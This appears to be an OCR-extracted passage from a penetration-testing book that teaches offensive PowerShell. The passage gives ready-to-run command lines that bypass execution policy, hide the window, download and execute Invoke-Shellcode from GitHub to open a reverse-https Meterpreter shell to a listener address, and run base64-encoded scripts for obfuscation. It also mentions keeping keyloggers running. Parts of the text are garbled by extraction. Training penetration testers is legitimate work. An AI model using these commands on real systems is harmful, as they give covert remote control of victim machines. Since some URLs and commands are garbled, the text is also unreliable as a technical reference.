 ● Makes scripting Windows attacks much easier
● Many tools are now being built in PowerShell and understanding it will make you a
more powerful and efficient penetration tester
You can always drop into a PowerShell command from a Windows terminal prompt by typing
“powershell” and get to the help menu by typing “help” once inside PowerShell. Here are the basic
flags and settings used throughout the book:
● -Exec Bypass: Bypass Security Execution Protection
○ This one is extremely important! By default, PowerShell has an
execution policy to not run PowerShell command/files. By running this
command you bypass any of those settings. Throughout the book we
will use this flag almost every time.
● -NonI: Noninteractive Mode - PowerShell does not present an interactive prompt to
the user
● -NoProfile (or -NoP): Enforces PowerShell console not to load the current user's
profile
● -noexit: Do not exit shell after execution. This is important for scripts like
keyloggers, so that they continually run.
● -W Hidden: Sets the window style for the session. This is so that the command
prompt stays hidden.
● 32-bit or 64-bit PowerShell:
○ This is also very important. Some scripts are only meant to run on
their specified platform. So if you are on a 64bit box, you might need to
execute 64-bit PowerShell to run the command.
○ 32-bit PowerShell Execution: powershell.exe -NoP -NonI -WHidden -Exec Bypass
○ 64-bit PowerShell Execution:
%WinDir%\syswow64\windowspowershell\v1.0\powershell.exe -
NoP -NonI -W Hidden -Exec Bypass
To help you better understand what we will come across in the PowerShell adventures, here are some
of the common execution commands that will be used throughout this book:
The first command will download a PowerShell script from a web server and execute that script. In
many cases, we are going to download a Meterpreter PowerShell script on a victim target via a
command prompt:
● Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object
Net.WebClient).DownloadString('[PowerShell URL]'); [Parameters]
For example, if we want to execute a Meterpreter Shell on a target, we need to download this script:
● https://raw.githubusercontent.com/cheetz/PowerSploit/master/CodeExecution/Invoke--Shellcode.ps1
We also need to know which parameters to use. The easiest way to find out what parameters you
might need is to read the source code of the PowerShell Script. Go visit the Invoke--Shellcode.ps1
file. If we look at the Invoke--Shellcode.ps1 file written by Mattifestation, we can see an example of
how to call a reverse-https Meterpreter shell.
Invoke--Shellcode.ps1
Our final PowerShell command will look like this:
● Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object
Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerSploi-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -
Lhost 192.168.30.129 -Lport 80
This makes PowerShell extremely easy and powerful to use. Let’s look at a few more examples.
Let’s say you downloaded the same file onto the target. You don’t want to have to reach out to a web
page to automatically download and execute the file. To locally run it:
● powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "& {ImportModule [Path and File of PowerShell Script]; [Parameters]}"
Lastly, throughout this book, I will regularly use base64 encoded PowerShell scripts both for
obfuscation and for compacting my code. To run an encoded PowerShell Script:
● powershell.exe -NoP -NonI -W Hidden -Exec Bypass -enc [Base64 Code]
Hopefully, this makes using PowerShell pretty straightforward and usable in your own tests.
Easy-P
Because this book is so heavily invested in PowerShell attacks, I created a little script to make
PowerShell a little more accessible during a penetration test. Easy-P has some of the common
PowerShell tools I use and the ability to encode my scripts.
For every command, Easy-P will give you multiple ways to run the code both locally and remotely.